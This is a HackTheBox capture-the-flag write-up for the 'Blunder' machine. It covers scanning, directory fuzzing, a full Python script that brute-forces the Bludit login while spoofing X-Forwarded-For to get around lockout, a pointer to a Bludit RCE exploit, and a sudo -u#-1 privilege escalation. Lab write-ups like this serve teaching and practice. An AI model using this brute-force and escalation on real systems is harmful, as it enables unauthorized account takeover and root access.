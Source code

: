 ```yaml
---
title: HackTheBox - Blunder
categories: htb 
excerpt: | 
  Blunder is an easy difficulty Linux machine. 

feature_text: |
  ## Blunder - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-generator: Blunder
| http-title: Blunder | A blunder of interesting facts
| http-server-header: Apache/2.4.41 (Ubuntu)
``` 

So we can investigate the main page of this ip. Then we can use wfuzz to find some other directories of it and we will see 'http://10.10.10.191/admin' and it is a login page. 

Try with the most common credentials but unfortunatly you cannot access to it.

We can search for txt extension with wfuzz and it will has a todo.txt page with a valid username that we can use late.


### Scripting in python
A very commom practice, when we have a lot of word in the main page, is to use the word of the own page to guest the password. There is a utility named 'cewl' which will create a dictionary.
  'cewl -w dictionary.txt http://10.10.10.191'

Now we can do a script in python to crack the password:

``` python
#!/usr/bin/python3
from pwn import *
import signal, os, time, requests, pdb, re

# Variables globales
file_name = "dictionary.txt"
main_url = "http://10.10.10.191/admin/login"

def handler(signum, frame):
    print("\n\n[!] Saliendo del programa.")
    sys.exit( -1 )

def bruteForce():
    s = requests.session()
    f = open(file_name, 'r')
    p1 = log.progress("Brute Force")
    p1.status("Starting attack")
    time.sleep(2)
    count = 1

    for passwd in f.readlines():
        passwd = passwd.strip('\n')
        p1.status( "Testing password [%d/349]: %s" % (count, passwd))
        r = s.get(main_url)
        token = re.findall(r'name="tokenCSRF" value="(.*?)"', r.text)[0]
        
        headers = {
            'X-Forwarded-For': '%s' % passwd
        }
        post_data = {
            'tokenCSRF': token,
            'username': 'fergus',
            'password': '%s' % passwd,
            'save': ''
        }
        r = s.post(main_url, data=post_data, headers=headers)
        
        if( "Username or password incorrect" not in r.text ):
            p1.success( "Password is %s" % passwd )
            break
        count += 1

signal.signal(signal.SIGINT, handler) 

if __name__ == "__main__":
  bruteForce()
```

We will get a valid credential...

Now it is time to get a vulnerability that let us remote command execution (RCE): Searchsploit Bludit and select Directory traversal. Follow this script and you are finally inside of the machine.

### Privilege scalation
Take a look of where is the user.txt flag. `find / \-name user.txt 2> /dev/null`

So it seems that we have to migrate to hugo. Let's take a look of the bludit content and there is a 'users.php' file which content a hash. We can crack it online with crackstation.net

Migrate to hugo and then search for privilege: `sudo -l`
>User hacker may run the following commands on kali:
>   (ALL, !root) /bin/bash

sudo -u#-1 /bin/bash




